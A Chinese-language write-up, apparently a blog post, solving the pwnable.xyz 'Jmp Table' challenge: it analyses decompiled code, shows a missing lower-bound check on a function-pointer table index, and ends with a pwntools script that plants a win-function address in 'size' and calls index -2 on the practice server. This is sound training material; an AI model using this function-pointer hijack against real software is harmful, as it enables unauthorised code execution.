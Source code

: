 ```yaml
---
title: pwnable-jmp-table
date: 2019-12-21 14:30:41
tags: 
- pwn
- pwnable.xyz
---
```


# pwnable.xyz  Jmp Table 

### 0x1 分析

老样子，看一看安全选项开启程度：

![](https://i.loli.net/2019/12/21/CSzd2IterAsJP48.png)

看样子，地址是固定的。(事实上我们之后就是用到了这个)

观察一下`main`函数：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // [rsp+Ch] [rbp-4h]

  setup();
  while ( 1 )
  {
    print_menu();
    printf("> ", argv);
    v3 = read_long();
    if ( v3 <= 4 )
      (*(&vtable + v3))();
    else
      puts("Invalid.");
  }
}
```

仍然是菜单选项呢

看一下菜单：

`return puts("1. Malloc\n2. Free\n3. Read\n4. Write\n0. Exit");`

然后就看到通过指针通过地址偏移量调用的函数了。

```assembly
.data:00000000006020B0 size            dq 1                    ; DATA XREF: do_malloc+1E↑w
.data:00000000006020B0                                         ; do_malloc+25↑r ...
.data:00000000006020B8                 public heap_buffer
.data:00000000006020B8 ; void *heap_buffer
.data:00000000006020B8 heap_buffer     dq 1                    ; DATA XREF: do_malloc+3F↑w
.data:00000000006020B8                                         ; do_malloc+50↑w ...
.data:00000000006020C0                 public vtable
.data:00000000006020C0 vtable          dq offset do_exit       ; DATA XREF: main+4E↑o
.data:00000000006020C8                 dq offset do_malloc
.data:00000000006020D0                 dq offset do_free
.data:00000000006020D8                 dq offset do_read
.data:00000000006020E0                 dq offset do_write
```

其实这里有个漏洞的，它在`if`条件句只加入了上限，并没有检查下限`0`。所以我们看到`vtable`位置之前的空间可以利用一下。

`do_malloc`函数：

```c
void *do_malloc()
{
  unsigned __int64 v0; // rax
  void *result; // rax

  printf("Size: ");
  v0 = read_long();
  size = v0;
  result = malloc(v0);
  if ( result )
    heap_buffer = result;
  else
    heap_buffer = (void *)1;
  return result;
}
```

这里可以注意到，`heap_buffer`和`size`就在`vtable`上面，我们可以操作的区域。

然后就是我们要调用的函数了 , 真是一个让人容易忽略的函数呢。:( 

```c
int _()
{
  return system("cat /flag");
}
```

它的地址是`0x400a31`，

那么其实我们可以答题了。

### 0x2 思路

首先我们在菜单`1`读入`0x400a31`到`size`位置，因为`size`位置就在`vtable`前面`0x10`的位置，我们通过调用菜单`-2`即可完成。

### 0x3 代码

``` python
from pwn import *

context.log_level = 'debug'
# p = process("./challenge")
p = remote("svc.pwnable.xyz", 30007)

p.sendafter('> ', '1\n')
p.sendafter('Size: ', str(int('0x400a31', 16)) + '\n')
p.sendafter('> ', '-2\n')
p.sendafter('> ', '0\n')
```



